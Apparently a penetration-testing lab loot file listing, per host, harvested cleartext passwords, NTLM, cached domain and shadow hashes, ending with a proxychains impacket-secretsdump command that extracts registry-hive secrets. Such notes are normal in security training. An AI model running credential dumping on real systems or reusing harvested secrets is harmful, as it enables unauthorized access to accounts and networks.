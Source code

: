 192.168.x.121;mssql,sa:WhileChirpTuesday218
192.168.x.121;user,joe,Flowers1
172.16.x.11;user,wario,Mushroom!
172.16.x.11;domain,yoshi,Mushroom! 
192.168.x.122;local,offsec,password
172.16.x.83;domain,leon,rabbit!:)
192.168.x.120;local,offsec,century62hisan51

172.16.x.11;domain,wario,$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a     
172.16.x.11;domain,joe,$DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c
172.16.x.83;local,offsec,2892d26cdf84d7a70e2eb3b9f05c425e
172.16.x.83;local,administrator,f26c0186c8ffcceb01fd2d7549e7ac1f
172.16.x.11;user,daisy,abf36048c1cf88f5603381c5128feb8e
172.16.x.11;user,toad,5be63a865b65349851c1f11a067a3068
172.16.x.11;user,goomba,8e9e1516818ce4e54247e71e71b5f436 
172.16.x.11;user,administrator,f1014ac49bae005ee3ece5f47547d185
172.16.x.11;domain,administrator,$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7 
192.168.x.122;local,root,root:$y$j9T$2pGfmLZ2kv0OMN7xs1QG21$6NibMN8YIZ794SpXXu9g3DMMJIZr95EFRVcs7xUs568:19268:0:99999:7:::
192.168.x.122;local,mario,mario:$y$j9T$WlF.5NfkOQ2xN4K9OPM2e1$X/wrPHU0zaz.dGUjFQGLj5nbrTfNpy0Hm6Xev04aUw8:19268:0:99999:7:::
172.16.x.12;domain,leon,2e208ad146efda5bc44869025e06544a
	

proxychains4 impacket-secretsdump -system system -sam sam -security security joe@172.16.244.11

